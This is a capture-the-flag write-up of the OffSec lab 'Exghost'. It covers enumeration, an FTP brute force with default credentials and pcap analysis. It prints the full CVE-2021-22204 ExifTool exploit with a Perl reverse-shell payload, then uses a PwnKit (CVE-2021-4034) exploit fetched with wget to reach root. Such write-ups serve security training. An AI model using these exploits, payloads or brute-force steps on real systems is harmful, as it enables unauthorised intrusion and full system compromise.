

# Exghost

- [Machine information](#machine-information)
- [Solution](#solution)
- [References](#references)

## Machine information

```text
Type: PG Practice
Difficulty: Fundamental
Community Rating: Hard
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
OS: Linux
Points: 15
Number of Flags: 2
Lab Description:
In this lab, FTP will be brute-forced using default credentials, and a pcap file will be analyzed, leading to 
remote code execution in the exif tool. Privilege escalation will then be achieved by exploiting a vulnerable 
version of the policykit-1 package. This lab focuses on brute-force techniques and privilege escalation methods.
```

Machine link: [https://portal.offsec.com/machine/exghost-37039/overview/details](https://portal.offsec.com/machine/exghost-37039/overview/details)

## Solution

### Scan for services with nmap

We start by scanning the machine on all TCP-ports with `nmap`, including service info and default scripts.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Fundamental/Exghost]
└─$ export TARGET_IP=192.168.101.183

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Fundamental/Exghost]
└─$ sudo nmap -sC -sV -p- $TARGET_IP                   
[sudo] password for kali: 
Starting Nmap 7.99 ( https://nmap.org ) at 2026-11-12 07:41 +0100
Nmap scan report for 192.168.101.183
Host is up (0.035s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT   STATE  SERVICE  VERSION
20/tcp closed ftp-data
21/tcp open   ftp      vsftpd 3.0.3
80/tcp open   http     Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: 403 Forbidden
Service Info: Host: 127.0.0.1; OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 118.57 seconds
```

We have two TCP-services running and available:

- [vsftpd](https://en.wikipedia.org/wiki/Vsftpd) 3.0.3 on port 21
- [Apache httpd](https://en.wikipedia.org/wiki/Apache_HTTP_Server) 2.4.41 on port 80

We also note that anonymous FTP-access isn't allowed.

In addition, we do a scan of the top 100 UDP-ports but find nothing:

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Fundamental/Exghost]
└─$ sudo nmap -sU --top-ports 100 -sV -sC $TARGET_IP
Starting Nmap 7.99 ( https://nmap.org ) at 2026-11-12 07:54 +0100
Stats: 0:16:33 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.77% done; ETC: 08:11 (0:00:01 remaining)
Nmap scan report for 192.168.101.183
Host is up (0.035s latency).
All 100 scanned ports on 192.168.101.183 are in ignored states.
Not shown: 100 open|filtered udp ports (no-response)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1219.66 seconds
```

### Check the web sites

Browsing manually to `http://192.168.101.183/` we get a `403 Forbidden` error message:



We also do some basic web enumeration with `nmap`.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Fundamental/Exghost]
└─$ nmap -p 80 --script "http-* and discovery" $TARGET_IP 
Starting Nmap 7.99 ( https://nmap.org ) at 2026-11-12 08:01 +0100
Pre-scan script results:
|_http-robtex-shared-ns: *TEMPORARILY DISABLED* due to changes in Robtex's API. See https://www.robtex.com/api/
Nmap scan report for 192.168.101.183
Host is up (0.036s latency).

Bug in http-security-headers: no string output.
PORT   STATE SERVICE
80/tcp open  http
|_http-comments-displayer: Couldn't find any comments.
|_http-devframework: Couldn't determine the underlying framework or CMS. Try increasing 'httpspider.maxpagecount' value to spider more pages.
| http-traceroute: 
|_  Possible reverse proxy detected.
| http-sitemap-generator: 
|   Directory structure:
|   Longest directory structure:
|     Depth: 0
|     Dir: /
|   Total files found (by extension):
|_    
|_http-xssed: No previously reported XSS vuln.
| http-useragent-tester: 
|   Status for browser useragent: 403
|   Allowed User Agents: 
|     Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)
|     libwww
|     lwp-trivial
|     libcurl-agent/1.0
|     PHP/
|     Python-urllib/2.5
|     GT::WWW
|     Snoopy
|     MFC_Tear_Sample
|     HTTP::Lite
|     PHPCrawl
|     URI::Fetch
|     Zend_Http_Client
|     http client
|     PECL::HTTP
|     Wget/1.13.4 (linux-gnu)
|_    WWW-Mechanize/1.34
| http-headers: 
|   Date: Thu, 12 Nov 2026 07:01:35 GMT
|   Server: Apache/2.4.41 (Ubuntu)
|   Content-Length: 280
|   Connection: close
|   Content-Type: text/html; charset=iso-8859-1
|   
|_  (Request type: GET)
| http-errors: 
| Spidering limited to: maxpagecount=40; withinhost=192.168.101.183
|   Found the following error pages: 
|   
|   Error Code: 403
|_      http://192.168.101.183:80/
|_http-mobileversion-checker: No mobile version detected.
| http-vhosts: 
|_128 names had status 403
|_http-chrono: Request times for /; avg: 91.80ms; min: 81.64ms; max: 121.57ms
| http-grep: 
|   (1) http://192.168.101.183:80/: 
|     (1) ip: 
|_      + 192.168.101.183
|_http-feed: Couldn't find any feeds.
|_http-title: 403 Forbidden
|_http-date: Thu, 12 Nov 2026 07:01:34 GMT; -2s from local time.
|_http-referer-checker: Couldn't find any cross-domain scripts.

Nmap done: 1 IP address (1 host up) scanned in 197.04 seconds
```

A scan with `whatweb` gives us the following information:

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Fundamental/Exghost]
└─$ whatweb -a3 http://$TARGET_IP  
http://192.168.101.183 [403 Forbidden] Apache[2.4.41], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[192.168.101.183], Title[403 Forbidden]
```

Finally, we scan for interesting directories recursively:

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Fundamental/Exghost]
└─$ ffuf -c -w /usr/share/wordlists/dirb/common.txt -recursion -u http://$TARGET_IP/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.101.183/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 34ms]
.htaccess               [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 3210ms]
.htpasswd               [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 3209ms]
.hta                    [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 4213ms]
server-status           [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 34ms]
uploads                 [Status: 301, Size: 320, Words: 20, Lines: 10, Duration: 35ms]
[INFO] Adding a new job to the queue: http://192.168.101.183/uploads/FUZZ

[INFO] Starting queued job on target: http://192.168.101.183/uploads/FUZZ

                        [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 34ms]
.hta                    [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 34ms]
.htaccess               [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 34ms]
.htpasswd               [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 34ms]
:: Progress: [4614/4614] :: Job [2/2] :: 1234 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
```

and files with `ffuf`:

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Fundamental/Exghost]
└─$ ffuf -c -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -e .php,.txt,.html -ac -u http://$TARGET_IP/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.101.183/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt
 :: Extensions       : .php .txt .html 
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

uploads                 [Status: 301, Size: 320, Words: 20, Lines: 10, Duration: 35ms]
:: Progress: [225172/225172] :: Job [1/1] :: 1086 req/sec :: Duration: [0:03:28] :: Errors: 0 ::
```

Nothing additional found there!

### Brute-force the FTP-server

We don't have anonymous access and we have no known users so instead we turn to brute-forcing with known default credentials:

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Fundamental/Exghost]
└─$ hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://$TARGET_IP
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-11-12 08:27:13
[DATA] max 16 tasks per 1 server, overall 16 tasks, 66 login tries, ~5 tries per task
[DATA] attacking ftp://192.168.101.183:21/
[21][ftp] host: 192.168.101.183   login: user   password: system
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-11-12 08:27:27
```

Now we can login and download available files.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Fundamental/Exghost]
└─$ ftp user@$TARGET_IP
Connected to 192.168.101.183.
220 (vsFTPd 3.0.5)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||57028|)
^C
receive aborted. Waiting for remote to finish abort.
ftp> passive
Passive mode: off; fallback to active mode: off.
ftp> ls -la
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        118          4096 Feb 25  2022 .
drwxr-xr-x    2 0        118          4096 Feb 25  2022 ..
-rwxrwxrwx    1 0        0          126151 Jan 27  2022 backup
226 Directory send OK.
ftp> get backup
local: backup remote: backup
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for backup (126151 bytes).
  0% |                                                                                                                                            |     0        0.00 KiB/s    --:-- ETA
100% |********************************************************************************************************************************************|   123 KiB  130.25 KiB/s    00:00 ETA
226 Transfer complete.
126151 bytes received in 00:00 (125.36 KiB/s)
ftp> quit
221 Goodbye.
```

### Analyse the backup file

Let's see what this backup file is.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Fundamental/Exghost]
└─$ file backup                      
backup: pcap capture file, microsecond ts (little-endian) - version 2.4 (Ethernet, capture length 262144)

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Fundamental/Exghost]
└─$ capinfos backup 
File name:           backup
File type:           Wireshark/tcpdump/... - pcap
File encapsulation:  Ethernet
File timestamp precision:  microseconds (6)
Packet size limit:   file hdr: 262144 bytes
Number of packets:   954
File size:           126 kB
Data size:           110 kB
Capture duration:    144.849077 seconds
Earliest packet time: 2022-01-27 13:45:34.403599
Latest packet time:   2022-01-27 13:47:59.252676
Data byte rate:      765 bytes/s
Data bit rate:       6,122 bits/s
Average packet size: 116.21 bytes
Average packet rate: 6 packets/s
SHA256:              69dc7a64bc6e283d1a3095ba7ff408563a7c8a90f11e8ae17ebe3a15c07a3dbb
SHA1:                ee0d3357deeb87a9579cd59a985644e23cc2f667
Strict time order:   True
Number of interfaces in file: 1
Interface #0 info:
                     Encapsulation = Ethernet (1 - ether)
                     Capture length = 262144
                     Time precision = microseconds (6)
                     Time ticks per second = 1000000
                     Number of stat entries = 0
                     Number of packets = 954
```

Ah, we have a network capture (PCAP-file).

We can get an overview of the traffic with `tshark`:

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Fundamental/Exghost]
└─$ tshark -q -z io,phs -r backup      

===================================================================
Protocol Hierarchy Statistics
Filter: 

eth                                      frames:954 bytes:110863
  ip                                     frames:954 bytes:110863
    udp                                  frames:934 bytes:92416
      dns                                frames:926 bytes:91136
      mdns                               frames:8 bytes:1280
    tcp                                  frames:20 bytes:18447
      http                               frames:4 bytes:17359
        data-text-lines                  frames:2 bytes:1481
        mime_multipart                   frames:1 bytes:15393
===================================================================
```

Looks like mainly DNS and HTTP-traffic.

Checking the HTTP-traffic, we find a POST-request to a PHP-page.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Fundamental/Exghost]
└─$ tshark -Y 'http' -r backup
   66 2022-01-27 12:45:44.634682    127.0.0.1 → 127.0.0.1    HTTP 485 GET / HTTP/1.1 
   68 2022-01-27 12:45:44.635193    127.0.0.1 → 127.0.0.1    HTTP 709 HTTP/1.1 200 OK  (text/html)
  891 2022-01-27 12:47:37.936765    127.0.0.1 → 127.0.0.1    HTTP 15393 POST /exiftest.php HTTP/1.1  (JPEG JFIF image)
  893 2022-01-27 12:47:38.018547    127.0.0.1 → 127.0.0.1    HTTP 772 HTTP/1.1 200 OK  (text/html)
```

Can we access this PHP-page?

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Fundamental/Exghost]
└─$ curl http://$TARGET_IP/exiftest.php
There is no file to upload. 
```

Yes we can, but we don't get much information.

Let's look into the POST-request in more detail.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Fundamental/Exghost]
└─$ tshark -Y 'http.request.method == "POST"' -r backup -O http
Frame 891: 15393 bytes on wire (123144 bits), 15393 bytes captured (123144 bits)
Ethernet II, Src: 00:00:00_00:00:00 (00:00:00:00:00:00), Dst: 00:00:00_00:00:00 (00:00:00:00:00:00)
Internet Protocol Version 4, Src: 127.0.0.1, Dst: 127.0.0.1
Transmission Control Protocol, Src Port: 58046, Dst Port: 80, Seq: 1, Ack: 1, Len: 15327
Hypertext Transfer Protocol
    POST /exiftest.php HTTP/1.1\r\n
        Request Method: POST
        Request URI: /exiftest.php
        Request Version: HTTP/1.1
    Host: 127.0.0.1\r\n
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:79.0) Gecko/20100101 Firefox/79.0\r\n
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8\r\n
    Accept-Language: en-US,en;q=0.5\r\n
    Accept-Encoding: gzip, deflate\r\n
    Content-Type: multipart/form-data; boundary=---------------------------169621313238602050593908562572\r\n
    Content-Length: 14806\r\n
        [Content length: 14806]
    Origin: http://127.0.0.1\r\n
    Connection: keep-alive\r\n
    Referer: http://127.0.0.1/\r\n
    Upgrade-Insecure-Requests: 1\r\n
    \r\n
    [Full request URI: http://127.0.0.1/exiftest.php]
    File Data: 14806 bytes
MIME Multipart Media Encapsulation, Type: multipart/form-data, Boundary: "---------------------------169621313238602050593908562572"
```

Nothing interesting there!

And what about the responses?

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Fundamental/Exghost]
└─$ tshark -r backup -Y 'http.response' -T fields -e http.file_data | xxd -r -p
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
    <!-- Part from this tutorial -->
    <form method="post" action="exiftest.php" enctype="multipart/form-data">
        <input type="file" name="myFile" />
        <input type="submit" value="Upload">
    </form>
    <!-- End of part from this tutorial -->
</body>
</html>
File uploaded successfully :)<pre>ExifTool Version Number         : 12.23
File Name                       : phpopnW14.jpg
Directory                       : /var/www/html/uploads
File Size                       : 14 KiB
File Modification Date/Time     : 2022:01:27 14:47:37+02:00
File Access Date/Time           : 2022:01:27 14:47:37+02:00
File Inode Change Date/Time     : 2022:01:27 14:47:37+02:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : inches
X Resolution                    : 120
Y Resolution                    : 120
Image Width                     : 253
Image Height                    : 257
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 253x257
Megapixels                      : 0.065
</pre>   
```

Ah, in the second response we can see that `exiftool` version 12.23 is installed and processes the uploaded image.

The form uses the variable `myFile`:

```html
    <form method="post" action="exiftest.php" enctype="multipart/form-data">
        <input type="file" name="myFile" />
        <input type="submit" value="Upload">
    </form>
```

### Search for exploits

Are there any exploits available for this version?

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Fundamental/Exghost]
└─$ searchsploit exiftool 12.23
------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                         |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
ExifTool 12.23 - Arbitrary Code Execution                                                                                                              | linux/local/50911.py
------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Fundamental/Exghost]
└─$ searchsploit -m 50911      
  Exploit: ExifTool 12.23 - Arbitrary Code Execution
      URL: https://www.exploit-db.com/exploits/50911
     Path: /usr/share/exploitdb/exploits/linux/local/50911.py
    Codes: CVE-2021-22204
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /mnt/hgfs/OffSec_PG/PG_Practice/Fundamental/Exghost/50911.py


┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Fundamental/Exghost]
└─$ cat 50911.py            
# Exploit Title: ExifTool 12.23 - Arbitrary Code Execution
# Date: 04/30/2022
# Exploit Author: UNICORD (NicPWNs & Dev-Yeoj)
# Vendor Homepage: https://exiftool.org/
# Software Link: https://github.com/exiftool/exiftool/archive/refs/tags/12.23.zip
# Version: 7.44-12.23
# Tested on: ExifTool 12.23 (Debian)
# CVE: CVE-2021-22204
# Source: https://github.com/UNICORDev/exploit-CVE-2021-22204
# Description: Improper neutralization of user data in the DjVu file format in ExifTool versions 7.44 and up allows arbitrary code execution when parsing the malicious image

#!/usr/bin/env python3

# Imports
import base64
import os
import subprocess
import sys

# Class for colors
class color:
    red = '\033[91m'
    gold = '\033[93m'
    blue = '\033[36m'
    green = '\033[92m'
    no = '\033[0m'

# Print UNICORD ASCII Art
def UNICORD_ASCII():
    print(rf"""
{color.red}        _ __,~~~{color.gold}/{color.red}_{color.no}        {color.blue}__  ___  _______________  ___  ___{color.no}
{color.red}    ,~~`( )_( )-\|       {color.blue}/ / / / |/ /  _/ ___/ __ \/ _ \/ _ \{color.no}
{color.red}        |/|  `--.       {color.blue}/ /_/ /    // // /__/ /_/ / , _/ // /{color.no}
{color.green}_V__v___{color.red}!{color.green}_{color.red}!{color.green}__{color.red}!{color.green}_____V____{color.blue}\____/_/|_/___/\___/\____/_/|_/____/{color.green}....{color.no}
    """)

# Print exploit help menu
def help():
    print(r"""UNICORD Exploit for CVE-2021-22204

Usage:
  python3 exploit-CVE-2021-22204.py -c <command>
  python3 exploit-CVE-2021-22204.py -s <local-IP> <local-port>
  python3 exploit-CVE-2021-22204.py -c <command> [-i <image.jpg>]
  python3 exploit-CVE-2021-22204.py -s <local-IP> <local-port> [-i <image.jpg>]
  python3 exploit-CVE-2021-22204.py -h

Options:
  -c    Custom command mode. Provide command to execute.
  -s    Reverse shell mode. Provide local IP and port.
  -i    Path to custom JPEG image. (Optional)
  -h    Show this help menu.
""")

# Run the exploit
def exploit(command):

    UNICORD_ASCII()

    # Create perl payload
    payload = "(metadata \"\c${"
    payload += command
    payload += "};\")"

    print(f"{color.red}RUNNING: {color.blue}UNICORD Exploit for CVE-2021-22204{color.no}")
    print(f"{color.red}PAYLOAD: {color.gold}" + payload + f"{color.no}")

    # Write payload to file
    payloadFile = open('payload','w')
    payloadFile.write(payload)
    payloadFile.close()

    # Bzz compress file
    subprocess.run(['bzz', 'payload', 'payload.bzz'])

    # Run djvumake
    subprocess.run(['djvumake', 'exploit.djvu', "INFO=1,1", 'BGjp=/dev/null', 'ANTz=payload.bzz'])

    if '-i' in sys.argv:
        imagePath = sys.argv[sys.argv.index('-i') + 1]
        subprocess.run(['cp',f'{imagePath}','./image.jpg','-n'])

    else:
        # Smallest possible JPEG
        image = b"/9j/4AAQSkZJRgABAQEASABIAAD/2wBDAAMCAgICAgMCAgIDAwMDBAYEBAQEBAgGBgUGCQgKCgkICQkKDA8MCgsOCwkJDRENDg8QEBEQCgwSExIQEw8QEBD/yQALCAABAAEBAREA/8wABgAQEAX/2gAIAQEAAD8A0s8g/9k="

        # Write smallest possible JPEG image to file
        with open("image.jpg", "wb") as img:
            img.write(base64.decodebytes(image))

    # Write exiftool config to file
    config = (r"""
    %Image::ExifTool::UserDefined = (
    'Image::ExifTool::Exif::Main' => {
        0xc51b => {
            Name => 'HasselbladExif',
            Writable => 'string',
            WriteGroup => 'IFD0',
        },
    },
    );
    1; #end
    """)
    configFile = open('exiftool.config','w')
    configFile.write(config)
    configFile.close()

    # Exiftool config for output image
    subprocess.run(['exiftool','-config','exiftool.config','-HasselbladExif<=exploit.djvu','image.jpg','-overwrite_original_in_place','-q'])

    # Delete leftover files
    os.remove("payload")
    os.remove("payload.bzz")
    os.remove("exploit.djvu")
    os.remove("exiftool.config")

    # Print results
    print(f"{color.red}RUNTIME: {color.green}DONE - Exploit image written to 'image.jpg'{color.no}\n")

    exit()

if __name__ == "__main__":

    args = ['-h','-c','-s','-i']

    if args[0] in sys.argv:
        help()

    elif args[1] in sys.argv and not args[2] in sys.argv:
        exec = sys.argv[sys.argv.index(args[1]) + 1]
        command = f"system(\'{exec}\')"
        exploit(command)

    elif args[2] in sys.argv and not args[1] in sys.argv:
        localIP = sys.argv[sys.argv.index(args[2]) + 1]
        localPort = sys.argv[sys.argv.index(args[2]) + 2]
        command = f"use Socket;socket(S,PF_INET,SOCK_STREAM,getprotobyname('tcp'));if(connect(S,sockaddr_in({localPort},inet_aton('{localIP}')))){{open(STDIN,'>&S');open(STDOUT,'>&S');open(STDERR,'>&S');exec('/bin/sh -i');}};"
        exploit(command)

    else:
        help()    
```

Nice, we can get a reverse shell with this exploit.

### Create a malicious image

Next, we use the exploit to create a malicious image.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Fundamental/Exghost]
└─$ python3 50911.py -s 192.168.45.197 12345                                                           
/mnt/hgfs/OffSec_PG/PG_Practice/Fundamental/Exghost/50911.py:61: SyntaxWarning: "\c" is an invalid escape sequence. Such sequences will not work in the future. Did you mean "\\c"? A raw string is also an option.
  payload = "(metadata \"\c${"

        _ __,~~~/_        __  ___  _______________  ___  ___
    ,~~`( )_( )-\|       / / / / |/ /  _/ ___/ __ \/ _ \/ _ \
        |/|  `--.       / /_/ /    // // /__/ /_/ / , _/ // /
_V__v___!_!__!_____V____\____/_/|_/___/\___/\____/_/|_/____/....
    
RUNNING: UNICORD Exploit for CVE-2021-22204
PAYLOAD: (metadata "\c${use Socket;socket(S,PF_INET,SOCK_STREAM,getprotobyname('tcp'));if(connect(S,sockaddr_in(12345,inet_aton('192.168.45.197')))){open(STDIN,'>&S');open(STDOUT,'>&S');open(STDERR,'>&S');exec('/bin/sh -i');};};")                                                                                                                                            
RUNTIME: DONE - Exploit image written to 'image.jpg'
```

### Get a reverse shell

We start a [Penelope](https://github.com/brightio/penelope) listener on port 12345:

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Fundamental/Exghost]
└─$ penelope -i tun0 -p 12345
[+] Listening for reverse shells on 192.168.45.197:12345 
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)

```

And upload the created image with `curl`:

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Fundamental/Exghost]
└─$ curl -X POST --form myFile=@image.jpg http://$TARGET_IP/exiftest.php

```

Back at the listener, we have a connection.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Fundamental/Exghost]
└─$ penelope -i tun0 -p 12345                  
[+] Listening for reverse shells on 192.168.45.197:12345 
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] [New Reverse Shell] => exghost 192.168.101.183 Linux-x86_64 👤 www-data(33) 😍 Session ID <1>
[+] ⭐ Agent deployed via /usr/bin/python3
[+] Interacting with session [1] • PTY • Menu key F12 ⇐
[+] Session log: /home/kali/.penelope/sessions/exghost~192.168.101.183-Linux-x86_64/2026_11_12-09_27_45-094-www-data(33).log
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
www-data@exghost:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@exghost:/var/www/html$ 
```

### Get the user flag

Now we can search for the user flag.

```bash
www-data@exghost:/var/www/html$ find / -name local.txt -type f 2>/dev/null
/home/hassan/local.txt
www-data@exghost:/var/www/html$ cat /home/hassan/local.txt 
1<REDACTED>c
www-data@exghost:/var/www/html$ 
```

### Enumeration for privesc

It's time to search for privilege escalation oppurtunities. We use my [Linux PrivEsc Checklist](https://cajac.gitbook.io/ctf-notes/priv-esc/linux-privilege-escalation/linux-privesc-checklist) as guidance.

Checking for exploits, we note an old and vulnerable version of `pkexec` ([CVE-2021-4034](https://nvd.nist.gov/vuln/detail/cve-2021-4034)).

```bash
www-data@exghost:/home/hassan$ apt list policykit-1
Listing... Done
policykit-1/focal-updates,focal-security 0.105-26ubuntu1.3 amd64 [upgradable from: 0.105-26ubuntu1.1]
N: There are 2 additional versions. Please use the '-a' switch to see them.
www-data@exghost:/home/hassan$ 
```

We can use [PwnKit](https://github.com/joeammond/CVE-2021-4034) to exploit it.

The exploit is shared and download to the target machine.

```bash
www-data@exghost:/tmp$ wget http://192.168.45.197/CVE-2021-4034.py
--2026-11-12 08:50:06--  http://192.168.45.197/CVE-2021-4034.py
Connecting to 192.168.45.197:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3262 (3.2K) [text/x-python]
Saving to: ‘CVE-2021-4034.py’

CVE-2021-4034.py                               100%[=================================================================================================>]   3.19K  --.-KB/s    in 0s      

2026-11-12 08:50:06 (782 MB/s) - ‘CVE-2021-4034.py’ saved [3262/3262]

www-data@exghost:/tmp$ 
```

### Get a root shell

Then we make the exploit executable and run it to get a root shell.

```bash
www-data@exghost:/tmp$ chmod +x CVE-2021-4034.py 
www-data@exghost:/tmp$ ./CVE-2021-4034.py 
[+] Creating shared library for exploit code.
[+] Calling execve()
# id
uid=0(root) gid=33(www-data) groups=33(www-data)
# 
```

### Get the root flag

Finally, we get the root flag.

```bash
# cd /root
# ls -la
total 36
drwx------  6 root root 4096 Nov 12 06:40 .
drwxr-xr-x 20 root root 4096 Jan  7  2021 ..
lrwxrwxrwx  1 root root    9 Feb 25  2022 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwx------  2 root root 4096 Mar 10  2022 .cache
drwxr-xr-x  3 root root 4096 Jan  7  2021 .local
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
drwx------  2 root root 4096 Jan  7  2021 .ssh
-rw-------  1 root root   33 Nov 12 06:40 proof.txt
drwxr-xr-x  3 root root 4096 Jan  7  2021 snap
# cat proof.txt
f<REDACTED>f
# 
```

For additional information, please see the references below.

## References

- [Apache HTTP Server - Wikipedia](https://en.wikipedia.org/wiki/Apache_HTTP_Server)
- [capinfos - Wireshark](https://www.wireshark.org/docs/man-pages/capinfos.html)
- [CVE-2021-4034 - NIST](https://nvd.nist.gov/vuln/detail/cve-2021-4034)
- [CVE-2021-4034 - Joe Ammond - GitHub](https://github.com/joeammond/CVE-2021-4034)
- [chmod - Linux manual page](https://man7.org/linux/man-pages/man1/chmod.1.html)
- [curl - Homepage](https://curl.se/)
- [curl - Linux manual page](https://man7.org/linux/man-pages/man1/curl.1.html)
- [cURL - Wikipedia](https://en.wikipedia.org/wiki/CURL)
- [ExifTool - Homepage](https://exiftool.org/)
- [exiftool - Linux manual page](https://linux.die.net/man/1/exiftool)
- [ExifTool - Wikipedia](https://en.wikipedia.org/wiki/ExifTool)
- [ExifTool 12.23 - Arbitrary Code Execution - ExploitDB](https://www.exploit-db.com/exploits/50911)
- [export - Linux manual page](https://www.man7.org/linux/man-pages/man1/export.1p.html)
- [ffuf - GitHub](https://github.com/ffuf/ffuf)
- [ffuf - Kali Tools](https://www.kali.org/tools/ffuf/)
